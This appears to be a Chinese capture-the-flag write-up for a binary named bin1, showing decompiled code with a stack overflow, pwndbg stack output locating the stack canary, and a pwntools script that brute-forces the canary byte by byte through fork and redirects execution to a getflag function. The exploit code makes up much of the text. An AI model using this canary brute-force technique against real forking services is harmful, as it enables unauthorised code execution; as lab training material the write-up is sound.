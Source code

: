 查看fun函数：

```
int fun()
{
  char buf; // [sp+8h] [bp-70h]@1
  int v2; // [sp+6Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  read(0, &buf, 0x78u);            //栈溢出漏洞
  return *MK_FP(__GS__, 20) ^ v2;
}
```

根据程序分析可以得到buf的大小为100

思路：看到程序开启了Canary和NX，然后程序中又有fork函数，可以利用爆破Canary来解决问题

gdb调试查看一下Canary的值：

```
pwndbg> stack 50
00:0000│ esp 0xffffcf20 ◂— 0x0
01:0004│     0xffffcf24 —▸ 0xffffcf38 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n'
02:0008│     0xffffcf28 ◂— 0x78 /* 'x' */
03:000c│     0xffffcf2c —▸ 0xf7e45013 (_IO_file_overflow+275) ◂— add    esp, 0x10
04:0010│     0xffffcf30 —▸ 0xf7fb2d20 (_IO_2_1_stdout_) ◂— 0xfbad2887
05:0014│     0xffffcf34 —▸ 0xf7fb2d67 (_IO_2_1_stdout_+71) ◂— 0xfb3f880a
06:0018│ ecx 0xffffcf38 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n'
... ↓        23 skipped
1e:0078│     0xffffcf98 ◂— 'aaa\n'
1f:007c│     0xffffcf9c ◂— 0xaddaf400        //Canary
20:0080│     0xffffcfa0 —▸ 0x8048863 ◂— 0x636c6577 /* 'welcome' */
21:0084│     0xffffcfa4 —▸ 0xf7fb2000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
```

继续运行，再次输入发现里面的Canary的值没有发生改变，这正是**通过 fork 函数创建的子进程的 Canary 与父进程是相同**

编写exp：

```
# -*- coding:utf-8 -*-
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

p = process('./bin1')
e = ELF('./bin1')

p.recvuntil('welcome\n')
canary = '\x00'

for i in range(3):
    for i in range(256):
        p.send('a'*100+canary+chr(i))
        message = p.recvuntil('welcome\n')
        if 'recv' in message:
            canary+=chr(i)
            break

getflag_addr = e.sym['getflag']
payload = 100*'a'+canary+8*'a'+4*'a'+p32(getflag_addr)
p.sendline(payload)
p.interactive()
```
